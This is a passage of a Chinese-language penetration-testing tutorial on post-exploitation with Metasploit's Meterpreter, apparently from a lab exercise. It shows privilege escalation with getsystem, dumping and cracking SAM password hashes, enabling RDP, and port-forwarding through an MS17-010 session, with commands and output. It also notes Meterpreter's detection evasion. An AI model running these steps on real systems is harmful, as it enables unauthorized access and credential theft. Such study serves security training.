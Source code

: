 ## 后渗透阶段

先介绍一下Meterpreter:

> Meterpreter是Metasploit框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpretershell的链接。Meterpretershell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。最后,Meterpreter还可以简化任务创建多个会话。可以来利用这些会话进行渗透。

在后渗透阶段我们将使用Meterpreter进行攻击

```
meterpreter > help        //输入help命令可以查看在meterpreter模块下执行的命令
meterpreter > sysinfo      //查看系统信息
Computer        : MYCOMPUTER
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : zh_CN
Domain          : LOUISNIE
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getsystem   //提升到system权限
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump  //导出SAM数据库的内容
Administrator:500:570ce399da1412abaad3b435b51404ee:b9d2d4955b330b503cc792eb6a55bb1f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:98e07fb45acadfe5febbf70690d16ae0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:18861c2baa27b5a9100c04acbbfa47d9:::
IUSR_MYCOMPUTER:1108:e2e508b31b1336d2c996f97338db8790:03320631cb387004f82daec52f03935f:::
IWAM_MYCOMPUTER:1109:fc512ee6de7b912f77747be12787d540:0f8f47aec1c4bc8897a81bce48cc20da:::
MYCOMPUTER$:1005:aad3b435b51404eeaad3b435b51404ee:979f58fb772361956a63f2bc34036a09:::
```

SAM简介:

> SAM是windows系统的一个系统用户账号管理文件。其全称为security account manager。Windows中对用户账户的安全管理使用了安全账号管理器SAM(security account manager)的机制,安全账号管理器对账号的管理是通过安全标识进行的，安全标识在账号创建时就同时创建，一旦账号被删除，安全标识也同时被删除。安全标识是唯一的，即使是相同的用户名，在每次创建时获得的安全标识都时完全不同的。因此，一旦某个账号被删除，它的安全标识就不再存在了，即使用相同的用户名重建账号，也会被赋予不同的安全标识，不会保留原来的权限。
>
> 其文件位置：C:\windows\system32\config\SAM

其格式是  用户名称:RID:LM-HASH值:NT-HASH:::

在Windows系统下,有两大hash,分别是LM HASH&NT HASH

对于NT HASH,我们直接可以在cmd5网站进行解密,解密Administrator用户密码为redhat



```
msf exploit(windows/smb/ms17_010_psexec) >run post/windows/manage/enable_rdp //打开目标服务器的远程连接

msf exploit(windows/smb/ms17_010_psexec) >exploit
meterpreter > portfwd add -l 2222 -r 192.168.135.136 -p 3389  //反弹目标的3389端口到本地的2222端口并监听该端口
[*] Local TCP relay created: :2222 <-> 192.168.135.136:3389
meterpreter > portfwd    //查看是否反弹成功

Active Port Forwards
====================

   Index  Local         Remote                Direction
   -----  -----         ------                ---------
   1      0.0.0.0:2222  192.168.135.136:3389  Forward

1 total active port forwards.

```